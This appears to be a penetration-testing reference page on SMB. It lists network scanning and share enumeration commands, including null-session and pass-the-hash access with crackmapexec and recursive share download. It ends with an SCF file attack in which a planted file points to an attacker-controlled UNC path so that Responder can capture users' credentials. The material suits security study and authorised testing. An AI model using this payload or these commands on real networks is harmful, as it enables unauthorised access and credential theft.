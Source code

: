 ```yaml
---
title: PORT 139/tcp, 445/tcp - SMB
category: Services
order: 8
---
```


SMB stands for Server Message Block. It’s a protocol for sharing resources like files, printers, in general any resource which should be retreivable or made available by the server.

# Introduction

It primarily runs on port 445 or port 139 depending on the server . It is actually natively available in windows, so windows users don’t need to configure anything extra as such besides basic setting up. In Linux however ,it is a little different. To make it work for Linux, you need to install a samba server because Linux natively does not use SMB protocol.

# Scanning the network

## Nmap

We can do a port scanner selecting the NetBIOS and SMB ports:

```
nmap -v -p 139,445 -oG smb.nmap <ip-addr>/<mask>
grep "Up" smb.nmap | cut -d " " -f 2
```

## Nbtscan

We can scan for NetBIOS Service around the network in order to collect additional NetBIOS information like server names:

```
sudo nbtscan -r <ip-addr>/<mask>
```

# Enumeration a target

## Nmap scripts

`Nmap` contains many useful NSE scripts that can be used to discover and enumerate SMB services. All these scripts are in the folder `/usr/share/nmap/scripts/`

```
ls -l /usr/share/nmap/scripts/smb*
```

You can launch the script with the `--script` parameter:

```
nmap -v -p 139,445 --script=<script> <ip-addr>
```

## Enum4linux

Enum4linux is an script that automatize some tasks:

```
enum4linux -a [-u <user> -p <pass>"] <ip-addr>
```

## Shared Folders

There are some available `nmap` scripts that could help us in that work:

```
nmap -p 139,445 -sV --script smb-\* <ip-addr>
```

`smbmap` will shows us available shares and permissions:

```
smbmap -H <ip-addr>
#Example Output
[+] Guest session       IP: ip-addr:445   Name: ip-addr
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (kenobi server (Samba, Ubuntu))
```

And we can connect to these shares with `smbclient`:

```
smbclient //<ip-addr>/<share>                # Guest Session
smbclient //<ip-addr>/<share> -U "" -N       # Null Session
smbclient //<ip-addr>/<share> -U <user>      # Authenticated Session

# Older versions
smbclient //<ip-addr>/<share> --option='client min protocol=NT1'
```

To download recursively all the share you can use `smbget`:

```
smbget -R smb://<ip-addr>/<share>
smbget -R smb://<ip-addr>/<share> -U <user>
```

Also you could enumerate shares with `crackmapexec`:

```
crackmapexec smb <ip-addr> -u '' -p '' --shares #Null user
crackmapexec smb <ip-addr> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <ip-addr> -u 'username' -H '<HASH>' --shares #Guest user
```

Finally you can mount the share on your kali.

```
sudo mount -t cifs -o vers=2.0,username=guest,password=guest //<ip-addr>/<share>
```

# Shell Command Files (SCF) attack

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```
[Shell]
Command=2
IconFile=\\<OUR.IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Adding the **@** symbol in front of the filename will place the file on the top of the share drive.

```
Filename: @attack.scf
```

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user, so we can capture it with Responder.

```
responder -I eth0
```

* [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

# References:

* [https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b](https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b)
* [https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139](https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139)
* [http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html](http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html)
